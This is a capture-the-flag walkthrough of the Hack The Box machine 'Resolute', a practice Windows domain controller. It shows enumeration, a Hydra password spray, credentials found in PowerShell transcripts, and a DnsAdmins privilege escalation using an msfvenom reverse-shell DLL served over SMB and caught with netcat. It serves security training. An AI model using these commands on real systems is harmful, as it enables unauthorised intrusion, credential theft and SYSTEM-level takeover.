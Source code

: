 ```yaml
---
description: https://www.hackthebox.eu/home/machines/profile/220
---
```


# Resolute

![](<../../../.gitbook/assets/image (414) (1).png>)

## Nmap

```
nmap 10.10.10.169 -p- -A 
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-26 13:31 EST
Nmap scan report for 10.10.10.169
Host is up (0.036s latency).
Not shown: 65511 closed ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain?
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-11-26 18:39:57Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49688/tcp open  msrpc        Microsoft Windows RPC
49951/tcp open  msrpc        Microsoft Windows RPC
62195/tcp open  unknown
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m31s, deviation: 4h37m09s, median: 7m29s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute                                                                                                                                                                                                                
|   NetBIOS computer name: RESOLUTE\x00                                                                                                                                                                                                    
|   Domain name: megabank.local                                                                                                                                                                                                            
|   Forest name: megabank.local                                                                                                                                                                                                            
|   FQDN: Resolute.megabank.local                                                                                                                                                                                                          
|_  System time: 2020-11-26T10:40:49-08:00                                                                                                                                                                                                 
| smb-security-mode:                                                                                                                                                                                                                       
|   account_used: guest                                                                                                                                                                                                                    
|   authentication_level: user                                                                                                                                                                                                             
|   challenge_response: supported                                                                                                                                                                                                          
|_  message_signing: required                                                                                                                                                                                                              
| smb2-security-mode:                                                                                                                                                                                                                      
|   2.02:                                                                                                                                                                                                                                  
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-11-26T18:40:46
|_  start_date: 2020-11-26T13:55:40

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.54 seconds
```

We have Kerberos, DNS and LDAP running on the server and the nmap smb-os-discovery script has detected OS as Windows Server 2016. We are likely dealing with a domain controller.

We have got the domain name megabnak.local from the smb-os-discovery which will be useful for when we need to enumerate Kerberos.

## SMB

I started off testing null authentication with smbclient and smbmap. Unforutnatley I pulled no results from this.

![](<../../../.gitbook/assets/image (415) (1).png>)

## MSRPC

I was able to connect with rpcclient without any valid credentials.

```
rpcclient -U "" 10.10.10.169
```

From here we can grab users and group information. The user information is exceptionally helpful for us when it comes to enumerating Kerberos.

![](<../../../.gitbook/assets/image (416) (1).png>)

Store the users in a text file and we can these try kerbroating the users.

## Kerberos

Now that we have a list of usernames and the domain name we have enough information to attempt a Kerberoast. We will use Impacket's GetNPUsers.py script.

```
sudo python GetNPUsers.py megabank.local/ -dc-ip 10.10.10.169 -request -usersfile /home/kali/Desktop/users.txt 
```

![](<../../../.gitbook/assets/image (417).png>)

We get no hashes from this. No point in attempting to brute force this many usernames as this will be too slow. We can go back to rpcclient and enumerate further.

Going back through the users I started querying them individually to look for more information and come across an account description for the user 'marko' that hints to a password.

![](<../../../.gitbook/assets/image (418).png>)

I tried these credentials against SMB and Evil-WinRM and did not receive any valid results.

![](<../../../.gitbook/assets/image (419) (1).png>)

## Hydra

We do have a possibility that the Administrator made a mistake and entered the account description regarding the password onto the wrong active directory account.

As we already have a list of users we can run this against Hydra with the password 'Welcome123!'.

```
hydra -L /home/kali/Desktop/users.txt -p Welcome123! smb://10.10.10.169
```

![](<../../../.gitbook/assets/image (420) (1).png>)

At this point I enumerated all readable shares recursively with smbmap and found no interesting information.

## User Shell

We do however, have WinRM open on port 5985 so we can try logging in with Evil-WinRM.

```
evil-winrm -u melanie -p Welcome123! -i 10.10.10.169
```

![](<../../../.gitbook/assets/image (421).png>)

From here we can grab the user flag.

![](<../../../.gitbook/assets/image (422).png>)

At this point I ended up look everywhere for anything to elevate privileges with. Various commands are blocked making it difficult to extract exact system information in order to review for possible vulnerabilities.

Eventually checking the root drive with `dir -ah` we see some hidden folders of which PSTranscripts stands out as being non default.

![](<../../../.gitbook/assets/image (1710).png>)

Moving into the folder and look further again with `dir -ah` for hidden files we see a transcripts file.

![](<../../../.gitbook/assets/image (1711).png>)

We can see in the transcript where the use ryan has attempted to map a drive and used his credentials in plaintext.

![](<../../../.gitbook/assets/image (1712).png>)

The credentials we now have are `ryan:Serv3r4Admin4cc123!`

We can use the credentials again to login with Evil-WinRM:

```
evil-winrm -u ryan -p Serv3r4Admin4cc123! -i 10.10.10.169 -s /home/kali/Downloads
```

![](<../../../.gitbook/assets/image (1713).png>)

Viewing the command whoami /all further we see the user ryan is a member of the 'DnsAdmins' group.

![](<../../../.gitbook/assets/image (1714).png>)

This group can be abused to register a malicious DLL in DNS and when executed it gets executed in the context of SYSTEM.

First generate a reverse shell DLL with `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.18 LPORT=4455 -f dll > exploit.dll
```

Then set up a `SMB` share using Impacket on the attacking machine to the directory where the `msfvenom` payload resides.

```
sudo python2 smbserver.py Share /home/kali/
```

![](<../../../.gitbook/assets/image (1715).png>)

Then on the target system register a new DNS DLL.

```
dnscmd 127.0.0.1 /config /serverlevelplugindll \\10.10.14.18\Share\exploit.dll
```

![](<../../../.gitbook/assets/image (1716).png>)

Then set a `netcat` listener on the attacking machine:

```
sudo nc -lvp 4455
```

We can then stop the DNS service then wait about 30 seconds and start it again.

```
sc.exe stop dns
sc.exe start dns
```

![](<../../../.gitbook/assets/image (1717).png>)

Impacket should recieve connection confrimation on our SMB server.

![](<../../../.gitbook/assets/image (1718).png>)

Then land a SYSTEM shell on `netcat`.

![](<../../../.gitbook/assets/image (1720).png>)
